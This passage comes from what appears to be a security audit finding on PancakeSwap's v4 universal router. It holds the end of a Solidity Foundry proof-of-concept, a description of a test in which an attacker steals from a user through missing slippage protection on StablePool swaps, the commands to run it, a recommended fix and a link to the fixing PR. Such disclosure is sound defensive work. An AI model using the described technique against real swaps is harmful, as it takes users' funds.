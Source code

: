 ```solidity
        //@audit => swap 1 CAKE for BUSDC to get an approximate of the current conversion between CAKE to BUSDC
        inputsHelperUser[1] = abi.encode(ActionConstants.MSG_SENDER, 1e18, 0, pathSwap2, true);

        bytes memory commandsHelperUser = abi.encodePacked(bytes1(uint8(Commands.V2_SWAP_EXACT_IN)), bytes1(uint8(Commands.V2_SWAP_EXACT_IN)));
        vm.prank(helperUser);
        router.execute(commandsHelperUser, inputsHelperUser);

        weth_usdc_ratio = USDC.balanceOf(address(helperUser));
        cake_busdc_ratio = BUSDC.balanceOf(address(helperUser));
        console.log("Convertion between WBNB to USDC:" , weth_usdc_ratio);
        console.log("Convertion between CAKE to BUSDC:" , cake_busdc_ratio);

        uint256 usdcUserHelperBalance = USDC.balanceOf(address(helperUser));
        uint256 busdcUserHelperBalanceBeforeStableSwap = BUSDC.balanceOf(address(helperUser));
        bytes[] memory inputsStableSwapHelperUser = new bytes[](1);
        //@audit => swap USDC for 1 BUSDC to get an approximate of the current conversion between USDC to BUSDC
        inputsStableSwapHelperUser[0] = abi.encode(ActionConstants.MSG_SENDER, 1e18, 0, stableSwapPath, pairFlag, true);

        bytes memory commandsStableSwapHelperUser = abi.encodePacked(bytes1(uint8(Commands.STABLE_SWAP_EXACT_IN)));
        vm.prank(helperUser);
        router.execute(commandsStableSwapHelperUser, inputsStableSwapHelperUser);

        usdc_busdc_ratio = BUSDC.balanceOf(address(helperUser)) - busdcUserHelperBalanceBeforeStableSwap;
        console.log("Convertion between USDC to BUSDC:" , usdc_busdc_ratio);
    }
}
```

There are two tests on the above PoC.
- The first test (`test_happyPathWithoutAbusingBug`) demonstrates the amount of tokenOut (BUSDC) the user should receive for swapping 1 WBNB and 250 CAKE.
    - In total, the user should receive > 1250 BUSDC.

- The second test (`test_explotingLackOfMevProtection`) demonstrates how an attacker is able to steal from the user when swapping on the StablePool.
    - The user receives < 675 BUSDC for swapping 1WBNB and 250 CAKE (same as the first test).

Run the tests with the next commands:
- Test1: `forge test --match-test test_happyPathWithoutAbusingBug -vvvv`
- Test2: `forge test --match-test test_explotingLackOfMevProtection -vvvv`

**Recommended Mitigation:** Consider checking the balance of tokenOut that the Router is holding before doing the stableSwap, and compare this with the balance after the swap is completed. Compute the difference and validate that such a difference is at least the specified `amountOutMinimum` to receive on that swap.

 **Pancake Swap**
Fixed in [PR 22](https://github.com/pancakeswap/pancake-v4-universal-router/pull/22/commits/0d4e1e9c61232edede18d07dde574954f20a064a#diff-4db526cf07a2465a36dea10866e1b87c8dc08ab7af4804b87e90a4cbd66c092a)
